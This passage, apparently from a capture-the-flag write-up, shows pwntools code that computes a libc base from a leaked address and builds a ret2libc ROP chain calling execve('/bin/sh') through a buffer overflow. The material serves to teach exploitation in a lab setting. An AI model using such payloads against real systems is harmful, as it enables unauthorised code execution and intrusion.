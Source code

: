 We will attach with gdb to calculate the leaked address with the libc base address to find the offset:

![vmmap-2.png](images/vmmap-2.png)

![libc-offset.png](images/libc-offset.png)

And we will add this code to get the libc base address:

```python
libc.address = libc_leak - 0xeef84
log.info("Libc base: " + hex(libc.address))
```

### Stage 3: Conduct ret2libc

With the libc base address, just simply conduct a ret2libc and we are done. Updated payload will be as follows:

```python
pop_rdi = exe.address + 0x0000000000001703
pop_rsi_r15 = exe.address + 0x0000000000001701
libc_pop_rdx = libc.address + 0x00000000000cb1cd

p.sendlineafter(b'input: ', b'127')
p.sendline(b'B'*(0x80-2))

p.sendlineafter(b'input: ', b'-1')
payload = b'A'*0x118
payload += flat(
    pop_rdi, next(libc.search(b'/bin/sh')),
    pop_rsi_r15, 0, 0,
    libc_pop_rdx, 0,
    libc.sym['execve']
    )
payload = payload.ljust(0x978, b'A')
p.sendline(payload)
```